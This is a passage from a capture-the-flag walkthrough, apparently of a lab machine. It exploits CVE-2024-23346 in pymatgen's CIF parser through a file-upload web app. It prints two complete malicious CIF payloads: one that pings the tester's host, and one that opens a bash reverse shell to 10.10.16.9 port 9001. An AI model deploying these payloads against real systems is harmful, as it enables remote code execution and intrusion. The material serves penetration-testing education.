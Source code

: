 We have ssh on port 22 and werkzeug python web server on port 5000.

### Web

Let's navigate to the website.

![werk](1.png)

We got a login page, we don't have any credentials so let's register a user and login.

![logedin](2.png)

We see an upload form for CIF files.

A quick search on google we find the vulnerability [CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346) that allows for arbitrary code execution.

I found this [article](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) that explains how the exploit works.

The poc we will be using can be found [here](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

## **Foothold**

The poc creates a file, I'll change it to ping my machine and see if it works.

```text
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 2 10.10.16.9");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

![ping](3.png)

We uploaded the file and clicked on `view` to trigger it and it worked, now let's get a reverse shell.

```terminal
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.9/9001 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
```